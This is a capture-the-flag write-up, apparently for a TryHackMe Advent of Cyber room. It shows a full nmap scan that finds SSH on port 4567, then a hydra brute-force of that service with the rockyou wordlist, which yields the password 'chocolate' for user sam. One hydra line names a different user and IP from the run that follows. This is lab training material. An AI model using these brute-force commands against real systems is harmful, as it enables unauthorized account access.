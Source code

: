 1. What port is SSH running on?

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.163.132
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 13:07 CEST
Nmap scan report for 10.10.163.132
Host is up (0.035s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:74:17:5c:4f:d7:a1:9a:e8:ba:86:cf:2a:fe:65:99 (RSA)
|   256 f1:6d:6f:41:85:06:73:f3:f2:30:fd:b6:6d:f8:4d:33 (ECDSA)
|_  256 7b:e4:f5:0b:92:a1:61:60:bb:84:79:5a:15:e5:3d:7f (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/3%OT=4567%CT=1%CU=37212%PV=Y%DS=2%DC=T%G=Y%TM=5F785
OS:BC4%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%TS=8)SEQ(SP=108%
OS:GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M
OS:508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68D
OS:F%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%
OS:CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.88 ms 10.8.0.1
2   33.97 ms 10.10.163.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.08 seconds
```

`4567`

2. Crack sam's password and read flag1.txt

`hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.132.190`

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.163.132:4567
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-03 13:10:01
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.163.132:4567/
[4567][ssh] host: 10.10.163.132   login: sam   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-03 13:10:14
```
